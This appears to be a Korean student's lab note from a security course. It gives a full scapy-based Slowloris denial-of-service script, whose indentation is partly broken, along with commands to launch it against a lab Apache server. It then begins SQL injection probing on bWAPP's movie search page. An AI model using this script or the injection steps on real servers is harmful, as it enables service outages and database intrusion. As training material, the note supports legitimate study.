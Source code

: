 # (Day 7) Slowloris Attack

Created: Dec 11, 2019 1:14 PM
Tags: slowloris
Updated: Dec 11, 2019 10:48 PM

## Slowloris Attack

- HTTP 요청 헤더와 본문이 개행문자로 구분되는 특징을 이용한 공격
- 헤더의 끝을 나타내는 개행문자를 전달하지 않아 서버가 연결을 유지하도록 하는 공격

## [실습] scapy를 활용

- **Kally #2**
- `gedit slowloris.py`    slowloris 파일 생성

    #! /usr/bin/env python
    
    import sys
    import time
    from scapy.all import *
    
    def slowloris (target, num) :
        print "start connect > {}".format(target)
        syn = []
        for i in range(num) :
            syn.append(IP(dst=target)/TCP(sport=RandNum(1024,65535),dport=80,flags='S'))
    		
    		syn_ack = sr(syn, verbose=0)[0]
    	
    	ack = []
    	for sa in syn_ack :
    	    payload = "GET /{} HTTP/1.1\r\n".format(str(RandNum(1,num))) +\
    	    "Host: {}\r\n".format(target) +\
    	    "User-Agent: Mozilla/4.0\r\n" +\
    	    "Content-Length: 42\r\n"
    	
    	    ack.append(IP(dst=target)/TCP(sport=sa[1].dport,dport=80,flags="A",seq=sa[1].ack,ack=sa[1].seq+1)/payload)
    	
    	answer = sr(ack, verbose=0)[0]
    	print "{} connection success!\t Fail: {}".format(len(answer), num-len(answer))
    	print "Sending data \"X-a: b\\r\\n\".."
    	
    	count = 1
    	while True :
    	    print "{} time sending".format(count)
    	    ack = []
    	    for ans in answer :
    	        ack.append(IP(dst=target)/TCP(sport=ans[1].dport,dport=80,flags="PA",seq=ans[1].ack,ack=ans[1].seq)/"X-a: b\r\n")
    	    answer = sr(ack, inter=0.5, verbose=0)[0]
    	    time.sleep(10)
    	    count += 1
    
    if __name__ == "__main__" :
        if len(sys.argv) < 3 :
            print "Usage: {} <target> <number of connection>".format(sys.argv[0])
            sys.exit(1)
        slowloris(sys.argv[1], int(sys.argv[2]))

- **Kally #1**
    - 서버 재기동
    `service apache2 stop`
    `service apache2 start`
    - 서버 상태 확인 (브라우저) [localhost/server-status](http://localhost/server-status)
- **Kally #2**
    - `python [slowloris.py](http://slowloris.py/) KALI#1_IP 50`
    50개의 패킷을 Kalli #1에게 전송

        ![Day%207%20Slowloris%20Attack/Untitled.png](images/Day%207%20Slowloris%20Attack/Untitled.png)

- **Kally #1의 브라우저 (localhost/server-status)**
- 50개의 패킷 요청을 읽고 있음

    ![Day%207%20Slowloris%20Attack/Untitled%201.png](images/Day%207%20Slowloris%20Attack/Untitled%201.png)

- Kally #1
    - mysql 서버 재기동
    service mysql start
- Kally #2
    - (브라우저) Kally #1의 bWAPP 로 접속 `Kally #1_ip /bWAPP`

        ![Day%207%20Slowloris%20Attack/Untitled%202.png](images/Day%207%20Slowloris%20Attack/Untitled%202.png)

        영화 조회 서비스

        ---

        [화면]
        제목 : man

        [전달 ← 요청 파라미터를 통해 전달]

        sqli_1.php?=title=man

        [사용 → 쿼리문을 만드는데 사용될 것으로 유추]
        select * from movies where title = '%man%'

        ![Day%207%20Slowloris%20Attack/Untitled%203.png](images/Day%207%20Slowloris%20Attack/Untitled%203.png)

        입력값이 전달/사용 과정에서 조작이 발생하는지를 확인할 때

        ---

        화면]
        제목 : man'

        [전달 ← 요청 파라미터를 통해 전달]

        sqli_1.php?=title=man'

        [사용 → 쿼리문을 만드는데 사용될 것으로 유추]
        select * from movies where title = '%man'%'

        ![Day%207%20Slowloris%20Attack/Untitled%204.png](images/Day%207%20Slowloris%20Attack/Untitled%204.png)

        ⇒ 백엔드 db가 mysql이라는 정보와 화면에서 입력한 값은 그대로 쿼리의 생성/실행에 활용됨

        - 정상적인 쿼리가 반환하는 컬럼의 개수를 확인

        ![Day%207%20Slowloris%20Attack/Untitled%205.png](images/Day%207%20Slowloris%20Attack/Untitled%205.png)

        ![Day%207%20Slowloris%20Attack/Untitled%206.png](images/Day%207%20Slowloris%20Attack/Untitled%206.png)

- 웹 해킹 관련 서적
    - 클라이언트 side :
    - 서버 side : 웹 해킹 & 보안 완벽 가이드